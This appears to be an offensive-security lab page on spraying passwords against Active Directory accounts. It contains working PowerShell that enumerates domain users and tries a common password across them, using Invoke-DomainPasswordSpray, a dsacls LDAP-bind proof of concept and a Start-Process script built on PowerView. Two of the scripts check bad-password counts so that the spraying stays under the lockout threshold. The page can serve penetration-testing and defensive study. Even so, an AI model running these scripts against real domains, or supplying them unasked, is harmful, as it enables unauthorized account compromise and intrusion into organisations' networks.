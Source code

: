 # Active Directory Password Spraying

This lab explores ways of password spraying against Active Directory accounts.

## Invoke-DomainSpray

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name |  Out-File users.txt
type users.txt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-21-29-13.png)

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-21-32-37.png)

## Spraying using dsacls

While I was poking around with dsacls for enumerating AD object permissions

{% page-ref page="using-dsacls-to-check-ad-object-permissions.md" %}

I noticed that one could attempt to bind to LDAP using specific AD credentials, so a dirty AD password spraying POC came about:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-00-10-10.png)

## Spraying with Start-Process

Similarly to dsacls, it's possible to spray passwords with `Start-Process` cmdlet and the help of PowerView's cmdlets:

{% code-tabs %}
{% code-tabs-item title="spray-ldap.ps1" %}
```csharp
# will spray only users that currently have 0 bad password attempts
# dependcy - powerview

$users = (Get-Content $userlist)
$domain = "domaintospray.tld"

Write-Host $users.Count users supplied; $users | % {
    $badPasswordCount = Get-BadPasswordCount -username $_ -Domain $domain
    if ($badPasswordCount -eq 0) {
        Write-Host Spraying : -NoNewline; Write-host -ForegroundColor Green " $_"
        $credentials = New-Object System.Management.Automation.PSCredential -ArgumentList @("$domain\$_",(ConvertTo-SecureString -String "123456" -AsPlainText -Force))
        Start-Process cmd -Credential ($credentials)
    } else {
        Write-Host "Ignoring $_ with $badPasswordCount badPwdCount" -ForegroundColor Red
    }
}
 
function Get-BadPasswordCount {
    param(
        $username = "username",
        $domain = "domaintospray.tld"
    )
    $pdc = (get-netdomain -domain $domain).PdcRoleOwner
    $badPwdCount = (Get-NetUser $username -Domain $domain -DomainController $pdc).badpwdcount

    return $badPwdCount
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## References

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon" %}





